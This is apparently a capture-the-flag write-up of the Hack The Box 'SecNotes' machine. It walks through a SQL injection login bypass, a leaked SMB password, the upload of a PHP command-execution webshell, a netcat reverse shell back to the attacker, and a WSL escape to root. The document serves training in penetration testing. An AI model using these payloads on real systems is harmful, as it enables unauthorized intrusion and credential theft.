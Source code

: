 Hack The Box: SecNotes Writeup

Machine: SecNotesDifficulty: MediumTechnique Stack: SQL Injection, SMB Enumeration, RCE via PHP Webshell, WSL Escape

🔍 Enumeration

We begin with an Nmap scan:

nmap -sC -sV -oN nmap.log 10.10.10.97

Discovered services:

80/tcp - HTTP (Microsoft IIS)

445/tcp - SMB

Navigating to port 80 reveals a login page with the option to register. After testing default creds, we create a user: user123:password123.

The app allows us to:

Create/delete notes

Change our password

Contact the admin

🐞 Exploitation – XSS & SQLi

A reflected XSS was possible in note fields, but attempts to steal cookies from the admin failed.

After some testing, SQL injection via the username field during registration was successful. Using:

user' OR 1=1#

we bypass login authentication and access other users' notes.

Found Notes:

One note revealed SMB credentials:

Username: tyler
Password: 92g!mA8BGjOirkL%OG*&

📁 SMB Enumeration

Using the credentials:

smbclient -U tyler \\10.10.10.97\new-site

Reveals hosted IIS files. To confirm it's live, upload a test file, then access it via browser. Success.

🧠 Remote Code Execution

Uploaded a basic PHP webshell to gain command execution:

<form action="rce.php" method="get">
  <input type="text" name="cmd">
  <input type="submit">
  <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; die; } ?>
</form>

Accessing this webshell provides us with command execution. We read the user flag from the shell.

🛠 Privilege Escalation

Step 1: Upgrade Shell

Upload nc64.exe to gain a proper reverse shell:

nc64.exe -e cmd.exe <your-ip> 4444

Catch it using netcat:

nc -lvnp 4444

Step 2: Investigating WSL

We find a Distros/Ubuntu folder with WSL files like ubuntu.exe, install.tar.gz, etc. Running wsl.exe gives us a Linux shell.

Upgrade it using Python:

python -c 'import pty; pty.spawn("/bin/bash")'

Step 3: Credential Discovery

In .bash_history we find cleartext administrator SMB credentials.

✅ Root Access Achieved

Using the admin credentials and full shell access via WSL, we collect the root flag and complete the box.

🧠 Lessons Learned

SQLi can be hidden in registration flows

SMB access + file hosting = quick RCE path

WSL environments can expose Linux shell access on Windows boxes

.bash_history is gold when hunting for creds

Status: OwnedFlags: user.txt, root.txtTools Used: Nmap, Burp, SMBClient, Netcat, PHP Webshell, Python, WSL

💀 This box is a perfect example of web + infra chaining, demonstrating how light misconfigurations lead to full pwn when stacked cleverly.

